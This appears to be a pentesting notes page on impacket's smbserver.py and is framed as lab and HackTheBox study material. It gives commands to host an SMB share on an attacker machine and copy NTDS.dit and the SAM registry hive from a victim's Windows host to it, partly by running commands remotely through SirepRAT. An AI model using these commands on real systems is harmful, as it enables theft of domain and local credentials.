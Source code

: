 ```yaml
---
title: smbserver - from impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting windows 
  - server
  - impacket
---
```


# smbserver - from impacket

Simple SMB Server example. [See impacket](impacket.md).


## Installation

Download from: [https://github.com/fortra/impacket/blob/master/examples/smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py)


## Basic usage

### Create a share server in attacker machine and connect from victim's

Launch smbserver in our attacker machine:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Also you can launch it with username and password:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/ -username "username" -password "agreatpassword"
```



Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


Sidenote: see [the HackTheBox machine Omni](htb-omni.md), which uses [SirepRAT](sireprat.md) to upload files to the share. A taste of it:

```bash
# First crate the shared. After that, establish the connection:
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.2\CompData /u:username agreatpassword'

# Now copy files to the share. In this case we are dumping Hives 
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\sam \
\10.10.14.2\CompData\sam'
```


